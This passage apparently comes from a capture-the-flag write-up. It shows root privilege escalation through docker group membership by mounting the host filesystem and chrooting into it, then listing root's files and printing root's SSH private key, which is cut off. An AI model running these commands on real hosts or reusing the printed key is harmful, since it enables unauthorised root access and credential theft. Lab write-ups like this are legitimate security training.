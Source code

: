 ![10](https://github.com/Knign/Write-ups/assets/110326359/8cc1208e-e473-4d8d-ac57-0d16f3adf421)

```
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@78c7562da81f:/# 
```
We are now the `root` user.
Let's check the contents of the `root` directory.
```
root@78c7562da81f:/# ls -la /root
total 40
drwx------  6 root root 4096 Mar 22  2019 .
drwxr-xr-x 23 root root 4096 Mar 19  2019 ..
-rw-------  1 root root  844 Mar 22  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Mar 22  2019 .cache
drwx------  3 root root 4096 Mar 22  2019 .emacs.d
drwx------  3 root root 4096 Mar 22  2019 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root    0 Mar 22  2019 .python_history
drwx------  2 root root 4096 Mar 22  2019 .ssh
-rw-rw-rw-  1 root root  193 Mar 22  2019 private.txt
```
The private key is has to be inside the `.ssh` directory.
Let's verify the fact.
```
root@78c7562da81f:/# ls -la /root/.ssh        
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
```
We can now `cat` out the private key.
```
root@78c7562da81f:/# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
sIOfoEC+vvs9SRxy8yNBQ2bx2kLYqoZpDJOuTC4Y7VIb+3xeLjhmvtNQGofffkQA
jSMMlh1MG14fOInXKTRQF8hPBWKB38BPdlNgm7dR5PUGFWni15ucYgCGq1Utc5PP
NZVxika+pr/U0Ux4620MzJW899lDG6orIoJo739fmMyrQUjKRnp8xXBv/YezoF8D
hQaP7omtbyo0dczKGkeAVCe6ARh8woiVd2zz5SHDoeZLe1ln4KSbIL3EiMQMzOpc
jNn7oD+rqmh/ygoXL3yFRAowi+LFdkkS0gqgmwIDAQABAoIBACbTwm5Z7xQu7m2J
tiYmvoSu10cK1UWkVQn/fAojoKHF90XsaK5QMDdhLlOnNXXRr1Ecn0cLzfLJoE3h
YwcpodWg6dQsOIW740Yu0Ulr1TiiZzOANfWJ679Akag7IK2UMGwZAMDikfV6nBGD
wbwZOwXXkEWIeC3PUedMf5wQrFI0mG+mRwWFd06xl6FioC9gIpV4RaZT92nbGfoM
BWr8KszHw0t7Cp3CT2OBzL2XoMg/NWFU0iBEBg8n8fk67Y59m49xED7VgupK5Ad1
5neOFdep8rydYbFpVLw8sv96GN5tb/i5KQPC1uO64YuC5ZOyKE30jX4gjAC8rafg
o1macDECgYEA4fTHFz1uRohrRkZiTGzEp9VUPNonMyKYHi2FaSTU1Vmp6A0vbBWW
tnuyiubefzK5DyDEf2YdhEE7PJbMBjnCWQJCtOaSCz/RZ7ET9pAMvo4MvTFs3I97
eDM3HWDdrmrK1hTaOTmvbV8DM9sNqgJVsH24ztLBWRRU4gOsP4a76s0CgYEA0LK/
/kh/lkReyAurcu7F00fIn1hdTvqa8/wUYq5efHoZg8pba2j7Z8g9GVqKtMnFA0w6
t1KmELIf55zwFh3i5MmneUJo6gYSXx2AqvWsFtddLljAVKpbLBl6szq4wVejoDye
lEdFfTHlYaN2ieZADsbgAKs27/q/ZgNqZVI+CQcCgYAO3sYPcHqGZ8nviQhFEU9r
4C04B/9WbStnqQVDoynilJEK9XsueMk/Xyqj24e/BT6KkVR9MeI1ZvmYBjCNJFX2
96AeOaJY3S1RzqSKsHY2QDD0boFEjqjIg05YP5y3Ms4AgsTNyU8TOpKCYiMnEhpD
kDKOYe5Zh24Cpc07LQnG7QKBgCZ1WjYUzBY34TOCGwUiBSiLKOhcU02TluxxPpx0
v4q2wW7s4m3nubSFTOUYL0ljiT+zU3qm611WRdTbsc6RkVdR5d/NoiHGHqqSeDyI
6z6GT3CUAFVZ01VMGLVgk91lNgz4PszaWW7ZvAiDI/wDhzhx46Ob6ZLNpWm6JWgo
gLAPAoGAdCXCHyTfKI/80YMmdp/k11Wj4TQuZ6zgFtUorstRddYAGt8peW3xFqLn
```